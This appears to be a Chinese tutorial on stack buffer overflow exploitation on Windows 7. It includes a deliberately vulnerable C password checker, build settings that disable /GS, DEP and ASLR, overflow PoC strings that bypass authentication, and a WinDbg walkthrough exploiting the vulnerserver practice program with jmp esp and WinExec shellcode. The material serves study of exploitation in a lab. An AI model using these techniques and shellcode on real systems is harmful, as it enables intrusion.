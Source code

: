 ﻿栈溢出利用
========================================

栈溢出
----------------------------------------

示例代码
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

::

	#include"stdafx.h"
	#include<Windows.h>

	#define PASSWORFD "1234567"

	int verify_password(char *password)
	{
		int authenticated;
		char buffer[44];
		authenticated = strcmp(PASSWORFD, password);
		strcpy(buffer, password);
		return authenticated;
	}

	int main(int argc, char* argv[])
	{
		
		if (argc > 1)
		{
			int valid_flag = 0;
			char password[1024];
			FILE *fp;
			LoadLibrary("user32.dll");
			if (!(fp = fopen(argv[1], "r")))
			{
				printf("password.txt open failed");
				exit(0);
			}
			fscanf(fp, "%s", password);
			valid_flag = verify_password(password);
			if (valid_flag)
				printf("incorrect password!\n");
			else
			{
				printf("Congratulation!You have passed the verification!");
			}
			fclose(fp);
		}
		else
			printf("main argu error!");
		return 0;
	}

编译环境：
 | IDE：Visual Studio 2015，release
 | 编译选项：
 | 字符集：使用多字节字符集
 | c/c++->优化->优化：已禁用
 | c/c++->优化->启用内部函数：否
 | c/c++->优化->全程序优化：否
 | c/c++->预处理器->预处理定义：_CRT_SECURE_NO_WARNINGS（或禁用SDL）
 | c/c++->代码生成->安全检查：禁用安全检查（/GS-）
 | 链接器->高级->数据执行保护(DEP)-否
 | 链接器->高级->随机基址-否
 | 附件：`stackvuln.zip <..//_static//stackvuln.zip>`_

运行堆栈
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 | **运行环境** ：Microsoft Windows 7 旗舰版 6.1.7601 Service Pack 1 Build 7601 64位
 | **poc** :

	::
		
		0321432143214321432143214321432143214321432143214321432143214321
		4321432143214321432143214321432143214321432143214321432143214321
		432143214321

 **溢出发生前** ：
	|stack4|
 **溢出发生后** ：
	|stack5|
 **EIP崩溃** ：
	|stack6|


POC
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 绕过验证
	**poc** ：
	::

		03214321432143214321432143214321432143214321

	**溢出发生前** ：
	|stack7|
	**溢出发生后** ：
	|stack8|
	**验证通过** ：
	|stack9|

- 代码植入
	**原理图** ：
	|stack10|
	**poc** ：
	|stack11|
	|stack15|

	**溢出发生前** ：
	|stack12|
	**溢出发生后** ：
	|stack13|
	**运行** ：
	|stack14|

实战示例
----------------------------------------

示例程序
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `vulnserver <https://github.com/stephenbradshaw/vulnserver>`_

运行环境
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Microsoft Windows 7 旗舰版 6.1.7601 Service Pack 1 Build 7601（32位）

FUZZ测试
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `boofuzz-vulnserver1 <..//_static//boofuzz-vulnserver1.py>`_
	通过以上脚本可使服务器程序崩溃，即POC。
- `boofuzz-vulnserver2 <..//_static//boofuzz-vulnserver2.py>`_
	通过以上脚本测试崩溃数据位置以及EXP代码。

EXP过程
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- windbg设置为JIT调试器
- 调试过程

	::

		Microsoft (R) Windows Debugger Version 6.12.0002.633 X86
		Copyright (c) Microsoft Corporation. All rights reserved.

		*** wait with pending attach
		Symbol search path is: srv*c:\symbols*http://msdl.microsoft.com/download/symbols
		Executable search path is: 
		ModLoad: 00400000 00407000   C:\Users\Administrator\Desktop\vulnserver.exe
		ModLoad: 77210000 7734c000   C:\Windows\SYSTEM32\ntdll.dll
		ModLoad: 756d0000 757a4000   C:\Windows\system32\kernel32.dll
		ModLoad: 75560000 755aa000   C:\Windows\system32\KERNELBASE.dll
		ModLoad: 62500000 62508000   C:\Users\Administrator\Desktop\essfunc.dll
		ModLoad: 76760000 7680c000   C:\Windows\system32\msvcrt.dll
		ModLoad: 76e60000 76e95000   C:\Windows\system32\WS2_32.DLL
		ModLoad: 76c10000 76cb1000   C:\Windows\system32\RPCRT4.dll
		ModLoad: 77430000 77436000   C:\Windows\system32\NSI.dll
		ModLoad: 74da0000 74ddc000   C:\Windows\system32\mswsock.dll
		ModLoad: 76d60000 76e29000   C:\Windows\system32\user32.dll
		ModLoad: 75680000 756ce000   C:\Windows\system32\GDI32.dll
		ModLoad: 77350000 7735a000   C:\Windows\system32\LPK.dll
		ModLoad: 76cc0000 76d5d000   C:\Windows\system32\USP10.dll
		ModLoad: 76e30000 76e4f000   C:\Windows\system32\IMM32.DLL
		ModLoad: 77360000 7742c000   C:\Windows\system32\MSCTF.dll
		ModLoad: 74610000 74615000   C:\Windows\System32\wshtcpip.dll
		ModLoad: 75260000 752ac000   C:\Windows\system32\apphelp.dll
		(6d4c.76a8): Access violation - code c0000005 (!!! second chance !!!)
		eax=0174f200 ebx=0000005c ecx=006751ec edx=00000000 esi=00000000 edi=00000000
		eip=017ff9e0 esp=0174f9e0 ebp=eeffee42 iopl=0         nv up ei pl zr na pe nc
		cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010246
		017ff9e0 ??              ???
		0:001> kb
		ChildEBP RetAddr  Args to Child              
		WARNING: Frame IP not in any known module. Following frames may be wrong.
		0174f9dc b850c033 64453278 b8506c6c 32336c65 0x17ff9e0
		0174fa30 772669a7 002c2518 00000000 77265dd3 0xb850c033
		0174fb14 77265ae0 00000208 00000210 002c2512 ntdll!RtlpAllocateHeap+0xc78
		0174fb88 00000000 00000000 00000000 00000000 ntdll!RtlAllocateHeap+0x23a
		0:001> dd esp- 0x20
		0174f9c0  41414141 41414141 42424241 42424242
		0174f9d0  42424242 42424242 eeffee42 017ff9e0
		0174f9e0  b850c033 64453278 b8506c6c 32336c65
		0174f9f0  656bb850 8b506e72 7bb850c4 ff7c801d
		0174fa00  50c033d0 2e0909b8 50657865 6c6163b8
		0174fa10  c48b5063 b850056a 7c8623ad c033d0ff
		0174fa20  cafab850 d0ff7c81 0174fb00 006749c0
		0174fa30  00000042 772669a7 002c2518 00000000
		多次执行程序发现，017ff9dc的堆栈位置不固定，导致无法017ff9dc(017ff9e0)数据无法确定，
		即存在ASLR，我们使用EMET来禁用ASLR。
		不知道为什么，禁用了ASLR之后，堆栈的地址还是不固定，那么我们需要将0174f9dC（017ff9e0）填充为僵尸地址。
		并且，堆栈恢复之后，esp指向了017ff9e0地址,即shellcode地址。
		那么我们可以在kernel32或ntdll中查找jmp esp (ffe4) 或者 call esp (ffd4) 的指令的地址，填充到017ff9dc。
		0:001> lm
		start    end        module name
		00400000 00407000   vulnserver   (deferred)             
		0dce0000 0dd2a000   KERNELBASE   (deferred)             
		3fd20000 3fd25000   wshtcpip   (deferred)             
		40160000 40166000   NSI        (deferred)             
		402c0000 402ca000   LPK        (deferred)             
		41840000 4185f000   IMM32      (deferred)             
		41ac0000 41af5000   WS2_32     (deferred)             
		62500000 62508000   essfunc    (deferred)             
		6c880000 6c8bc000   mswsock    (deferred)             
		6f000000 6f04c000   apphelp    (deferred)             
		6f8e0000 6f97d000   USP10      (deferred)             
		6ff50000 6fffc000   msvcrt     (deferred)             
		70990000 70a5c000   MSCTF      (deferred)             
		77b60000 77bae000   GDI32      (deferred)             
		77bb0000 77c51000   RPCRT4     (deferred)             
		77d10000 77dd9000   user32     (deferred)             
		77de0000 77eb4000   kernel32   (deferred)             
		77ec0000 77ffc000   ntdll      (pdb symbols)          c:\symbols\ntdll.pdb\120028FA453F4CD5A6A404EC37396A582\ntdll.pdb
		
		77D34E5B    FFE4            jmp     esp
		
		0:001> x kernel32!LoadLibraryA
		77e3395c kernel32!LoadLibraryA = <no type information>
		0:001> x kernel32!0:001> x kernel32!WinExec
		77e6e5fd kernel32!WinExec = <no type information>
		
		shellcode如下：
		0172fa2b 90              nop
		0172fa2c 90              nop
		0172fa2d 90              nop
		0172fa2e 90              nop
		0172fa2f 90              nop
		0172fa30 33c0            xor     eax,eax
		0172fa32 50              push    eax
		0172fa33 b82e646c6c      mov     eax,6C6C642Eh
		0172fa38 50              push    eax
		0172fa39 b8656c3332      mov     eax,32336C65h
		0172fa3e 50              push    eax
		0172fa3f b86b65726e      mov     eax,6E72656Bh
		0172fa44 50              push    eax
		0172fa45 8bc4            mov     eax,esp
		0172fa47 50              push    eax
		0172fa48 b85c39e377      mov     eax,offset kernel32!LoadLibraryA (77e3395c)
		0172fa4d ffd0            call    eax
		0172fa4f 33c0            xor     eax,eax
		0172fa51 50              push    eax
		0172fa52 b82e657865      mov     eax,6578652Eh
		0172fa57 50              push    eax
		0172fa58 b863616c63      mov     eax,636C6163h
		0172fa5d 50              push    eax
		0172fa5e 8bc4            mov     eax,esp
		0172fa60 6a05            push    5
		0172fa62 50              push    eax
		0172fa63 b8fde5e677      mov     eax,offset kernel32!WinExec (77e6e5fd)
		0172fa68 ffd0            call    eax
		0172fa6a 33c0            xor     eax,eax
		0172fa6c 50              push    eax
		0172fa6d b8faca817c      mov     eax,7C81CAFAh
		0172fa72 ffd0            call    eax
		0172fa74 90              nop
		0172fa75 90              nop
		0172fa76 90              nop
		0172fa77 90              nop
		0172fa78 90              nop


	|stack16|


.. |stack4| image:: ../../images/stack4.png
.. |stack5| image:: ../../images/stack5.png
.. |stack6| image:: ../../images/stack6.png
.. |stack7| image:: ../../images/stack7.png
.. |stack8| image:: ../../images/stack8.png
.. |stack9| image:: ../../images/stack9.png
.. |stack10| image:: ../../images/stack10.jpg
.. |stack11| image:: ../../images/stack11.png
.. |stack12| image:: ../../images/stack12.png
.. |stack13| image:: ../../images/stack13.png
.. |stack14| image:: ../../images/stack14.png
.. |stack15| image:: ../../images/stack15.png
.. |stack16| image:: ../../images/stack16.png